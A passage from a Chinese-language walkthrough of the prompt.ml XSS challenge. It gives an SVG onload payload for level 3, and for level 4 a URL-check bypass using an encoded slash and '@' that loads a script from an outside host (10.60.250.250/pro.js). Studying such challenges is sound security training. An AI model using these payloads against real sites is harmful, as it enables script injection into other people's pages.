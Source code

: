 ## Img:

1. `--!><svg/ onload=prompt(1)>`

![3_1](/img/xss/prompt_ml/level3_001.png)

# Level 4

## Code:

```
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}              
```

## 分析:

```
只能匹配http://prompt.ml/或//prompt.ml/下网址,可以利用@绕过访问从而其他域名。
这里需要把它的/用url编码%2f,@后的ip填写我php环境搭建的地址,其中的pro.js文件内
填写prompt(1)即可。
最终payload为：http://prompt.ml%2f@10.60.250.250/pro.js

```
